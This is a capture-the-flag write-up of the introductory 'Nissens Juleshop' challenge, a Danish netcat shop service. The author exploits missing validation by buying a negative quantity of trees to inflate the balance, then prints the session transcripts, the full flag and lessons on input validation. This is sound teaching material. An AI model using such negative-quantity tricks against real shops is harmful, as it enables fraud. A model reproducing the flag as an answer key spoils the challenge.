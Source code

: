 +++
title = 'Nissens Juleshop'
categories = ['Kom godt i gang']
date = 2023-12-01T10:11:50+01:00
scrollToTop = true
+++

## Challenge Name:

Nissens Juleshop

## Category:

Kom godt i gang

## Challenge Description:

Nissen har lige åbnet sin årlige juleshop, har han mon noget spændende at købe?

Forbind til opgaven med nc juleshop.nc3 2674.

Note: Opgaven var tilgængelig via Haaukins under CTFen

## Approach

### Enumeration

This is one of the few "dynamic" introduction challenges, in which we need to connect to a lab in Haaukins and connect to a remote machine.

Upon connecting to the server with the netcat command

```bash
nc juleshop.nc3 2674
```

We are greeted by the following

```bash
Velkommen til Nissens Juleshop!

Du har i øjeblikket 1000 JULESNE på din konto
Hvad vil du købe?
        1) Julelys (85 JULESNE)
        2) Gavepapir (40 JULESNE)
        3) Sneskovl (230 JULESNE)
        4) Juletræ (760 JULESNE)
        5) Flag (1000000 JULESNE)
>
```

Which translated from Danish reads:

```bash
Welcome to Nissens Chistmas Shop!

You currently have 1000 CHRISTMAS-SNOW on your account
What would you like to purchase?
        1) Chistmas candles (85 CHRISTMAS-SNOW)
        2) Gift wrapping paper (40 CHRISTMAS-SNOW)
        3) Snow shovel (230 CHRISTMAS-SNOW)
        4) Chistmas tree (760 CHRISTMAS-SNOW)
        5) Flag (1000000 CHRISTMAS-SNOW)
>
```

If we choose a product we are asked how many we would like to purchase, after which the price is deducted from the total balance on our account!

If we try to purchase a product we can't afford, we get the following error message:

```bash
> 5
Den går ikke, du har ikke engang råd til 1x Flag
```

Which translated from Danish reads:

```bash
> 5
That won't do, you can't even afford 1x Flag
```

### Exploiting

There is a great old joke about a software tester who walks into a bar, which goes something like

```text
A software tester walks into a bar.

Walks into a bar
Runs into a bar.

Crawls into a bar.

Dances into a bar.

Flies into a bar.

Jumps into a bar.

And orders:

a beer.

2 beers.

0 beers.

99999999 beers.

a lizard in a beer glass.

-1 beer.

"qwertyuiop" beers.

Testing complete.

A real customer walks into the bar and asks where the bathroom is.

The bar goes up in flames.
```

The "moral of the story" is that whenever executing quality assurance on software, it is usually a good idea to provide unexpected input!

When we think about the challenge at hand, let's see what happens if we provide a negative amount!

```bash
Du har i øjeblikket 1000 JULESNE på din konto
Hvad vil du købe?
        1) Julelys (85 JULESNE)
        2) Gavepapir (40 JULESNE)
        3) Sneskovl (230 JULESNE)
        4) Juletræ (760 JULESNE)
        5) Flag (1000000 JULESNE)
> 4

Hvor mange vil du købe?
> -100000

Du har købt -100000 stk. Juletræ for i alt -76000000 JULESNE

Du har i øjeblikket 76001000 JULESNE på din konto
```

Which translated from Danish reads:

```bash
You currently have 1000 CHRISTMAS-SNOW on your account
What would you like to purchase?
        1) Chistmas candles (85 CHRISTMAS-SNOW)
        2) Gift wrapping paper (40 CHRISTMAS-SNOW)
        3) Snow shovel (230 CHRISTMAS-SNOW)
        4) Chistmas tree (760 CHRISTMAS-SNOW)
        5) Flag (1000000 CHRISTMAS-SNOW)
> 4

How many would you like to purchase?
> -100000

You bought -100000 Chistmas tree for a total of -76000000 CHISTMAS-SNOW

Your balance is currently 76001000 CHISTMAS-SNOW
```

Suddenly we have a wealth of "CHISTMAS-SNOW" at our disposal and the flag can easily be purchased!

```bash
> 5
Du har købt flaget for 1000000 JULESNE:
NC3{hv4d_sk3t3_d3r_4lt_bl3v_uds0lg7_på_10_m1n?!?}
```

Which translated from Danish reads:

```bash
> 5
You bought the flag for a total of 1000000 CHISTMAS-SNOW:
NC3{hv4d_sk3t3_d3r_4lt_bl3v_uds0lg7_på_10_m1n?!?}
```

## Flag

```text
NC3{hv4d_sk3t3_d3r_4lt_bl3v_uds0lg7_på_10_m1n?!?}
```

## Reflections and Learnings

The "Nissens Juleshop" challenge was a fun and educational exercise in thinking outside the box and testing the boundaries of a system. This challenge reinforced the importance of considering edge cases and unusual inputs when interacting with any system, especially one that processes numerical inputs like an online shop.

One of the key learnings from this challenge was the significance of input validation. The challenge exploited the lack of input validation for negative numbers, allowing for an interesting and unconventional solution. It highlighted a common vulnerability in many systems where developers might not anticipate or properly handle unexpected inputs. This is a crucial aspect in the field of cybersecurity and software development, where robust input validation can prevent many exploits and security issues.

Furthermore, this challenge was a great reminder of the classic principle in hacking and cybersecurity: "Think like an attacker." Approaching the challenge from an attacker's perspective, looking for ways to break the system or use it in unintended ways, led to the discovery of the vulnerability and the successful completion of the challenge. This mindset is invaluable in both offensive and defensive cybersecurity roles.
